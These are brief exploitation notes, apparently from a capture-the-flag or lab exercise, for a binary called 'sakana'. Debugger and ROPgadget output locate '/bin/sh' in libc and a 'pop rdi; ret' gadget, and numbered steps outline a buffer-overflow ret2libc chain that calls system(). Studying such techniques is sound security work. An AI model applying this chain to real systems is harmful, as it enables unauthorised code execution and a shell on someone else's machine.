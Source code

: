 ## Some Notes
1. There is the string "/bin/sh" in memory address 0x7f31bc4c55bd.
```
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7f31bc4ab000-0x7f31bc4f9000), permission=r--
  0x7f31bc4c55bd - 0x7f31bc4c55c4  →   "/bin/sh" 
gef➤  x/bs 0x7f31bc4c55bd
0x7f31bc4c55bd: "/bin/sh"
```
2. There is a ROP gadget at 0x00000000000023a3
```
❯ ROPgadget --binary sakana --only 'pop|ret' | grep 'rdi'
0x00000000000023a3 : pop rdi ; ret
```
3. Overflow the buffer to cover the original return address ($rbp+8) with 0x00000000000023a3
4. Overflow the buffer to put the address of "bin/sh" in ($rbp+16)
5. Overflow the buffer to put the address of system() (0x52290)
6. leave; ret (pop rip)
7. rip will point to the address of the ROP gadget
